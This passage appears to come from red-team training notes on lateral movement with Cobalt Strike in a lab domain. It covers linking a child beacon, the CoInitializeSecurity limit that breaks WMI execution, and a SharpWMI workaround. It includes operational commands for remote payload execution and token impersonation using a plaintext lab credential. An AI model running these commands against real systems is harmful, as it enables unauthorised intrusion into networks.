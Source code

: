 ```
beacon> link web.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.30
```

As with WinRM, the process will be running in an elevated context of the calling user.


## CoInitializeSecurity

---

Beacon's internal implementation of WMI uses a [Beacon Object File](https://cobaltstrike.com/help-beacon-object-files), executed using the [beacon_inline___execute](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_inline_execute) Aggressor function. When a BOF is executed the [CoInitializeSecurity](https://docs.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-coinitializesecurity) COM object can be called, which is used to set the security context for the current process. According to Microsoft's documentation, this can only be called once per process.  The unfortunate consequence is that if you have CoInitializeSecurity get called in the context of, say "User A", then future BOFs may not be able to inherit a different security context ("User B") for the lifetime of the Beacon process.

An example of that can look like the following:

```
beacon> make_token DEV\jking Qwerty123
[+] Impersonated DEV\bfarmer

beacon> remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to web.dev.cyberbotic.io: 5
```

We know `jking` is a local admin on WEB but because `CoInitializeSecurity` has already been called (probably in the context of `bfarmer`), WMI fails with access denied.  As a workaround, your WMI execution needs to come from a different process. This can be achieved with commands such as `spawn` and `spawnas`, or even `execute-assembly` with a tool such as `SharpWMI`.

```
beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=web.dev.cyberbotic.io command="C:\Windows\smb_x64.exe"

[*] Host                           : web.dev.cyberbotic.io
[*] Command                        : C:\Windows\smb_x64.exe
[*] Creation of process returned   : 0
[*] Process ID                     : 3436
```


## DCOM

---

Beacon has no built-in capabilities to interact over Distributed Component Object Model (DCOM), so we must use an external tool such as [Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1). We'll see in a later module how this can be integrated into the `jump` command.
